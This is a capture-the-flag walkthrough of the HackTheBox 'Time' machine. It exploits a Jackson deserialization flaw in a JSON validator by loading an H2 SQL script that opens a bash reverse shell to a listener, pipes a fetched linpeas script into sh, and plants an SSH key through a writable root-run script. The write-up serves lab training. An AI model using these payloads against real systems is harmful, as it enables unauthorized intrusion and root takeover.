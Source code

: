 ```yaml
---
title: " HackTheBox {Time}"
description: Walkthrough of the Time Machine on Hackthebox.
---
```

![Time](https://media.discordapp.net/attachments/490431433559506954/832933487954231336/screenshot-193.png)

## {0x1} Scanning port

```sh
PORT STATE SERVICE VERSION 
22/tcp open ssh  OpenSSH 8.2p1 Ubuntu 4ubuntu (Ubuntu Linux;
protocol 2.0)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see that there is the ssh/22 port and the 80 / http port which are open.

We are going to see the http/80 port to see what is interesting.

We see an online json beautifier & Validator with 2 options, "Beatify" & "Validate!(Beta)".

![A](https://media.discordapp.net/attachments/490431433559506954/832936431823224862/unknown.png)

I intercepted both options in burpsuite and i have just input sample JSON datain the input field, select Beautify option and click on the PROCESS button. We can see this working. 
Now try the same on "Validate! (Beta)" options : 

![a](https://media.discordapp.net/attachments/490431433559506954/832954307493756969/unknown.png)

You got an error ! 
```
Validation failed: Unhandled Java exception:com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object
```


## {0x2} Foothold

I pasted the error message: ```Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object``` on google, I came across an article from stackoverflow.  <a href="https://stackoverflow.com/questions/26251486/jackson-polymorphic-deserialization-expected-start-array">here article</a>

The error is related to Jackson Polymorphic Deserialization expected START_ARRAY.

Now, you need to create a inject.sql files and add a reverse shell to have it call back to me. :

```sh
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/10.10.14.90/1337 0>&1 &')
```

Now, start a netcat listener :

```sh
nc -nvlp 1337
listening on [any] 1337 ...
```

Now inject the payload to : "Validate!(Beta)".

```sh
[“ch.qos.logback.core.db.DriverManagerConnectionSource”,{“url”:”jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM ‘http://IP:PORT/inject.sql'”}]
```

and you got a reverseshell running as the user pericles.

```sh
listening on [any] 1337 ...
connect to [10.10.14.64] from (UNKNOWN) [10.10.10.214] 42212
```

Now for a good stable shell, type :

```sh
$python -c “import pty;pty.spawn(‘/bin/bash’)”
$export TERM=xterm
```
Got the user flag : 

```
pericles@time:/home/pericles$ cat user.txt 
cat user.txt
7u7243a41d508868b8c935c47b554ad7
```
## {0x3} Privilege Escalation

Try to upload linpeas ( LinPEAS is a script that search for possible paths to escalate privileges on Linux )

Install linpeas <a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS">Linpeas</a>

Start python server where are your linpeas.sh file and curl to the target machine.

```
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```

We can see that root has been accessing this file: “/usr/bin/timer_backup.sh”. Which is owned by your user and writeable.

![ak](https://media.discordapp.net/attachments/490431433559506954/832944544067878932/unknown.png)

You need to create your ssh key, add our SSH public key to the authorized_keys file on the server. To do this follow commands :

```sh
ssh-keygen
( no passphrase ) 
Copy your id_rsa.pub key 
and paste this command in target machine : echo "echo id_rsa.pub >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh
```

Now just : ```chmod 600 id_rsa && ssh -i id_rsa root@10.10.10.214```

Done ! 

```sh
root@time:~# whoami
root
root@time:~# id
uid=0(root) gid=0(root) groups=0(root) 
```

Got the root flag 

```sh
root@time:~# cat /root/root.txt
adsd9hf0c86b8786477033415e3018a4
```
## Summary Of Knowledge : 

- Java Deserialization
- System Timer Exploitation

## About me :

- Post author : x0ld
- Github : https://github.com/x0ld
- Twitter : @x0ld7
![ak](https://www.hackthebox.eu/badge/image/491690)

